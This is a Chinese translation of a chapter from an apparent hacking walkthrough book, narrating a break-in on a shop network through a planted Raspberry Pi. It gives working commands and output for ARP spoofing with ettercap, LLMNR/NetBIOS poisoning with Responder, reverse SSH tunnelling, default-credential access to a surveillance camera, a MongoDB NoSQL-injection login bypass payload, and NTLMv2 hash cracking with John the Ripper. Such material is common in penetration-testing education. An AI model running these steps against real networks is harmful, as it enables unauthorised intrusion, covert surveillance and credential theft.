





# 认识

<b>
"迈向改变的第一步是认知。第二步是接受。"  --纳撒尼尔·布兰登(Nathaniel Branden) 
</b>

<br><br>


## 嗅探周围
舒适地安顿在附近一家咖啡馆内，我们连接到前置服务器，并注意到机器上的端口 5555 打开：我们有一个工作隧道，将我们连接到 PI 0！我们 ssh 到本地端口访问 PI 0的控制台，并开始我们的艺术工作：
```
root@FrontGun:~ # ssh root@localhost 5555
The programs included with the Kali GNU/Linux system are free software;
Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 03 14:44:04 2017 from 198.xx.xx.xx
root@PIspy:~ #
```

在异国环境中，第一个反射就是倾听网络上发生的事情。当我们只需要利用监听来渗透网络时，许多渗透测试人员/黑客却急于启动nmap和其他扫描工具，并开始向整个管理员人群广播他们的存在。

如果我们显示网络的配置，我们可以看到我们位于标准专用 IP 网络 （192.168.1.0/24） 上，本地家用路由器充当网关。
```
root@PIspy:~ # ifconfig
eth0 Link encap:Ethernet HWaddr 00:e0:4c:56:19:cd
 inet addr:192.168.1.19 Bcast:192.168.1.255
 Mask:255.255.255.0 UP BROADCAST RUNNING
 MULTICAST MTU:1500 Metric:1
 RX packets:102 dropped:0 overruns:0 frame:0
 TX packets:124 dropped:0 overruns:0 carrier:0
 collisions:0 txqueuelen:1000
[…]
root@PIspy:~ # route
Kernel IP routing table
Destination Gateway Genmask Use Iface
default 192.168.1.1 0.0.0.0 0 eth0
192.168.1.0 * 255.255.255.0 0 eth0
```

我们可以开始记录通过有线传输的数据包，使用许多集成的Kali工具（tcpdump、tshark等），但无论如何，我们只能成功地将流量发送到PI。

一点也不有趣！

然而，其他设备的流量-现在这是我们可以处理的。一种方法是诱使他们使用我们的PI作为网关，而不是合法的路由器。

我们可以使用经典的ARP欺骗技术来实现这一点。ARP是一种将IP地址（网络层）转换为MAC地址（物理层）的协议。换言之，它可以判断哪些设备连接到路由器上的哪些物理端口。这主要是一个“叫喊协议”，我喜欢这样称呼它。

发送数据包时，设备会向网络发送以下消息：“谁的IP地址是192.168.1.1？”，第一个响应“这就是我，我在路由器的4端口上”的设备赢得比赛并获得数据包。

为了欺骗设备给我们他们的数据，我们发送多个ARP包假装是主网关-192.168.1.1。

试图通过默认网关发送数据包的设备将被诱使将其数据发送到PI 0，后者将读取数据并将其转发到真正的网关。回来的路上也一样。
```
root@PIspy:~ # ettercap -T -w dump.txt -i eth0 -M arp:remote /192.168.1.1// /// output:
```
*-T switch is for using console GUI only<br>
-w dump.txt, instructs Ettercap to save recorded packets to a file <br>
-M arp:remote, is for performing a MitM attack on ARP <br>
/192.168.1.1// is the target to spoof <br>
/// is an empty filter that tells Ettercap to respond to ARP requests issued by all machines <br>
output: is what outputs everything on the screen*

这种方法的主要问题是随着时间的推移其可靠性能否得到保障。由于网关也响应ARP请求，它有时可以赢得比赛并接收数据。随着时间的推移，受害设备可能会在实际网关和PI 0之间交替，从而降低所收集数据的质量。

另外，许多新的路由器被配置为在看到大量ARP欺骗消息时触发（有时是剧烈的）对策：断开欺骗信息发送者的连接、忽略其消息、禁止其发送等。

值得庆幸的是，有一种非常类似的方法可以达到中间人的地位，这有点难以消除：NetBIOS投毒。NetBIOS是一种协议（应用层），微软设备使用它将名称解析为IP地址，与DNS完全一样。

不过，让我们最高兴的是，它的工作原理很像ARP。一台计算机高喊它想要联系的服务器的名称：“FRSV01的IP地址是什么？“第一台声称知道这台机器IP的机器赢得了比赛，并收到了承诺的数据。不执行其他检查。

事实证明，Windows操作系统在很大程度上依赖于NetBIOS名称：装载网络共享、连接到SQL Server数据库、加载内部网站等。

因此，我们的目标是将PI 0用作NetBIOS泛洪设备，这意味着它将响应本地Windows设备（平板电脑和计算机）建立的任何NetBIOS连接。

一旦我们成功地诱骗设备向我们发送其数据，我们就可以像任何合法的服务器一样，有效地模拟服务器并请求用户的凭据。

因为我们和目标设备在同一个本地网络上，所以我们有更多的机会赢得比赛并获得可靠的数据流。根据设备发出的请求，如果用户浏览受基本身份验证保护(在基本身份验证方案中，用户会以base64编码格式附加一个包含“login:password”的HTTP头。这个头出现在所有请求中，这使得拦截变得很简单。)的内部网页，我们将获得明文密码，或者更可能获得NTLM响应散列（稍后详细介绍）。

我们将使用Responder工具执行NetBIOS投毒攻击。我们可以用以下命令：
```
root@PIspy:# $ git clone https://github.com/SpiderLabs/Responder
```

此工具将在PI上生成多个Windows经常使用的伪服务：文件共享服务（SMB）、HTTP、FTP、SQL Server等，并耐心等待依赖NetBIOS的客户端与其服务器联系。
```
root@PIspy:# cd Responder
root@PIspy:~/Responder# python Responder.py -wrf -I eth0
 __
 .----.-----.-----.-----.-----.-----.--| |.-----.----.
 | _| -__|__ --| _ | _ | | _ || -__| _|
 |__| |_____|_____| __|_____|__|__|_____||_____|__|
 |__|
 NBT-NS, LLMNR & MDNS Responder 2.3
 Author: Laurent Gaffie (laurent.gaffie@gmail.com)
 To kill this script hit CRTL-C
 [+] Poisoners:
 LLMNR [ON]
 NBT-NS [ON]
 DNS/MDNS [ON]
[+] Servers:
 HTTP server [ON]
 HTTPS server [ON]
 WPAD proxy [ON]
 SMB server [ON]
 Kerberos server [ON]
 SQL server [ON]
 FTP server [ON]
 IMAP server [ON]
 POP3 server [ON]
  SMTP server [ON]
 DNS server [ON]
 LDAP server [ON]
[+] HTTP Options:
 Always serving EXE [OFF]
 Serving EXE [OFF]
 Serving HTML [OFF]
 Upstream Proxy [OFF]
[+] Poisoning Options:
 Analyze Mode [OFF]
 Force WPAD auth [OFF]
 Force Basic Auth [OFF]
 Force LM downgrade [OFF]
 Fingerprint hosts [ON]
[+] Generic Options:
 Responder NIC [eth0]
 Responder IP [192.168.1.19]
 Challenge set [1122334455667788]
[+] Listening for events...
```
*-wrf options activate different poisoning options <br>
-I specifies the device name to poison*

我们让Responder履行其（非）法定职责，并开始在网络上搜寻：发现机器、寻找低垂的水果等。

## 物联网中的S代表安全
我严重怀疑这家小店的网络中是否有入侵检测系统，但我们会保证它的安全，并仔细扫描每台机器上的100个最常见的开放端口（-F选项）：
```
root@PIspy:# nmap -F 192.168.1.0/24 -oA result_shop
Starting Nmap 7.01 ( https://nmap.org )
Nmap scan report for 192.168.1.16
Host is up (0.0023s latency).
Not shown: 100 closed ports
[…]

Nmap scan report for 192.168.1.25
Host is up (0.0023s latency).
Not shown: 97 closed ports
PORT STATE SERVICE
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
MAC Address: A3:9D:09:9A:F6:93 (Unknown)

Nmap scan report for 192.168.1.87
Host is up (0.062s latency).
Not shown: 99 filtered ports
PORT STATE SERVICE
80/tcp open http
MAC Address: 04:35:79:0A:D6:13 (Unknown)

Nmap scan report for 192.168.1.90
Host is up (0.062s latency).
Not shown: 99 filtered ports
PORT STATE SERVICE
80/tcp open http
MAC Address: 12:B5:09:D5:DD:1F (Unknown)
```

正如预期的那样，我们清楚地看到管理者的计算机（192.168.1.25）运行着Windows操作系统，这是因为经典的“microsoft ds”和“netbios ssn”服务（端口445和139）而可以识别的。

少数没有开放端口的机器可能是销售人员使用的iPad。不过，还有两个设备下落不明：192.168.1.87和192.168.1.90！

nmap输出显示两台设备的80端口上的出现网站网页。

现在用PI 0来观察有点困难。

我们可以使用一个完整的终端网页浏览器，但是谁有耐心使用空格键滚动网页呢？让我们拿出大炮，在PI上运行Socks代理：一种程序，它接受连接并自动将它们重定向到目标，而不必看一眼内容。

可以在下面的地址找到使用这种程序的Python脚本（参阅https://github.com/k3idii/python-socks-server）的直接实现。
```
root@PIspy:# wget https://github.com/k3idii/python-socks-server
root@PIspy:# cd python-socks-server
root@PIspy:python-socks-server # python server-basic.py &
2017-03-19 10:13 [INFO] Will listen on [127.0.0.1:9876]
```

很明显，这会在PI 0上打开一个本地端口（9876），我们无法从前置服务器访问该端口。为了让它可以从外部访问，我们只需要使用与之前相同的技巧：SSH隧道。
```
root@PIspy:# ssh -nNT -R 7777:localhost:9876 <FrontGun_IP>
```

这将打开前置服务器上的7777端口，并将其链接到PI上的9876端口：即，到socks程序，该程序将数据包转发到我们选择的任何目标。

最后一步是指示前置服务器上的Firefox使用此隧道（首选项->高级->网络->设置）：


我们访问机器192.168.1.87上的开放端口80，发现一个非常令人愉快的惊喜：


我们在吉布森鸟的朋友似乎采取了额外的措施来保护他们的商店：一个来自海康威视的摄像设备，实时记录发生的事情。监视和其他什么。

访问受密码保护，所以我们不能乱来。然而，物联网设备的优点在于，大多数情况下，这些产品都是以默认方式安装的，直接来自于说明书的凭证。

没有人愿意更改这些密码；毕竟，它们在一个安全的本地网络中！我们需要做的就是查阅视频监控设备的安装指南，以访问设备。

例如，对于Hikvision摄像机，默认凭据是admin/12345。


我们现在可以实时跟踪店内发生的事情，创建盲点，改变亮度等，非常整洁。

如果你喜欢玩相机，你可以在互联网上找到一些相机，使用所谓的Google dorks：专门设计的谷歌搜索过滤器，专门挑选特定的设备或网站(参看https://www.exploit-db.com/google-hacking-database/)。

Shodan网站(参看https://www.shodan.io/)是一个与互联网相连的搜索引擎，也引用了几十万条信息。



## 比Netflix好
让我们看看网络上运行的第二台好奇的机器：192.168.1.90。


在Google上快速搜索并不能提供任何关于名为Valkyrie的流媒体产品的有意义的信息。这很可能是吉布森鸟（GibsonBird）使用的一种自制媒体服务器解决方案，用于将内容流式传输到本地商店的显示屏上。

通常一个典型的媒体服务器的工作方式如下：它从远程服务器下载内容（在这种情况下，可能是公司服务器？）使用HTTP、FTP、NFS（Unix上的文件共享）或其他协议，然后将这些文件作为流媒体内容提供给订阅到media center的电视屏幕。

如果我们可以访问这个web应用程序，我们可以在这个商店的屏幕上显示任何（有趣的）消息。

我们一定要吗？不是真的。
为了10秒的乐趣，这种不必要的曝光会威胁到整个行动。但为了完整起见，让我们再次探讨如何仅仅为了演示的目的来破解这个平台。

拿下摄像机后的第一个反应是尝试使用常用密码
例如：admin/admin、admin/password、admin/P@ssword。


显然，不能用同样的伎俩两次。否则就太容易了！利用一些特殊字符（“，”，<，>，；）来看看GibsonBird开发人员如何处理意外数据：


这条错误信息会让一个黑客欢欣鼓舞！

这个消息告诉我们一个简单的事实：我们可以绕过身份验证过程。

让我们一步一步来！

此错误显示媒体服务器用于存储帐户和密码的是MongoDB数据库。更有趣的是，双引号（“）造成了这么多麻烦，这告诉我们，我们发送的数据是由MongoDB自动处理的，作为查询的一部分！

这意味着我们可以以某种方式更改身份验证查询，这最终会导致完全绕过！

寻找有效帐户的假设请求将依赖于find函数，该函数接受以下参数：
```
auth_db.find( {
 "user": "admin",
 "password":"wrong_pass"
} )
```

在password字段中插入双引号将向find（）函数提供不正确的数据，这自然会引发异常，因此会出现上一个错误：
```
auth_db.find( {
 "user": "admin",
 "password":"wro"ng_pass"
} )
```

让我们把它带到下一个层次。与其插入一个简单的双引号，不如添加一个总是证明正确的条件子句！例如，我们可以添加“或”条件，即密码必须大于或等于空字符串，而不是要求MongoDB同时查找符合特定条件的用户和密码：
```
auth_db.find( {
 "user": "admin",
 "password":"", "password":{"$gte":""}
} )
```

因此MongoDB将查找一个名为admin的帐户，该帐户的空值为
密码或包含数据的密码。当然，只要有一个名为“admin”的帐户，这个请求将始终为真。我们在密码字段中发送有效负载并耐心等待欢迎消息：


我们进去了！

恭喜，我们刚刚实施了被称为noSQL注入（参阅https://www.owasp.org/index.php/Testing_for_NoSQL_injection）的攻击.

在媒体服务器的管理控制台上，我们只需要找到用于检索内容的URL，并使其指向前置服务器上托管的视频文件。

某些媒体服务器只允许本地托管在磁盘上的流内容。如果是这种情况，我们必须找到一种方法，在更改显示的内容之前先控制此服务器。幸运的是，这是本章其余部分的目的！

> 提示：这显然只会影响此商店的本地显示屏。在本书的后面，我们希望在该国的任何商店中我们将有足够的权限来控制原始订阅服务器，并提供任何内容！

## 第一个信条 – 欢迎加入团队
当我们忙于摆弄相机和显示屏的同时，我们也终于成功地捕捉到管理器计算机发出的身份验证请求：


我们从上图中得到几个相关元素：
- 管理人员的Windows帐户：dvoxon
- 域名：GBSHOP（稍后详细介绍）
- 目标机器名称：SV0078
- 最重要的是，NTLM挑战响应

为了充分把握这些元素的潜力，我们需要快速地讨论Windows环境中的身份验证过程。

微软设备用来识别用户的主要协议是NTLM。它是一种挑战响应类型协议，工作原理如下：
- 远程服务器接收来自名为dvoxon的用户的资源（文件夹、文件等）请求。它向用户发送一个随机数。
- 用户的工作站将一些数学函数应用到他的密码中，得到一个散列（hash），一个称为H的唯一指纹。
- 然后，工作站将散列（H）与随机数连接起来，并计算另一个散列，称为H2。这是NTLM响应挑战。
- 工作站将产生的哈希（H2）发送到服务器。
- 服务器可以访问用户的散列密码（H），并知道随机数。它计算自己的H2并将其与接收到的H2进行比较。如果匹配，则授予用户访问权限。

这个协议有许多缺陷，我们稍后将利用这些缺陷（传递散列是最著名的）。目前，我们感兴趣的只是NTLM响应，因为它包含一个确定的密码值。

我们知道随机数（响应程序作为服务器生成它），所以我们可以很容易地强制使用所有可能的密码，直到得到对应于NTLM响应（H2）的密码。

当然，有工具可以做到这一点。我们将使用John The Ripper和以前破解密码的文字列表（下载链接有https://wiki.skullsecurity.org/Passwords和https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm ），我们可以在以下网址找到。

我们在前置服务器上启动John The Ripper（或者密码破解专用服务器），并耐心等待结果：
```
root@FrontGun:~# john -w wordlists.txt pass.txt 
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/32])
Bird123! (dvoxon)
```

太棒了！我们现在有一个帐户操作！还有一个管理人员账户。我们正式成为吉布森鸟环境的一部分。

不过，在继续讨论有趣的内容之前，我想先用几行代码浏览一下Windows上的Active Directory。充分理解企业Windows体系结构是一个需要把握的重要因素。


> 翻译：Ryan 2020/2/18

